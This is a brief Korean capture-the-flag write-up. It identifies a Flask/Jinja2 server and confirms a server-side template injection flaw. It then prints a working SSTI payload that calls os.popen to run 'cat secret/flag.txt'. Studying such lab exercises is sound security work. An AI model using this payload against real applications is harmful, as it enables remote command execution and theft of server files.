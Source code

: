 노출되는 Werkzerg 서버를 보면 Python Flask 서버라는것을 알수있음(이미 소스를 받아서 확인가능)
Jinja2 Flask 탬플릿 랜더링 유츄가능

SSTI 취약점 확인 시도
![img_8.png](404/img_8.png)

취약점 확인 후 Flag 추출 시도. flag.txt 경로는 app.py 내 존재함
{{ self._TemplateReference__context.cycler.__init__.__globals__['__builtins__']['__import__']('os').popen('cat secret/flag.txt').read() }}

![img_9.png](404/img_9.png)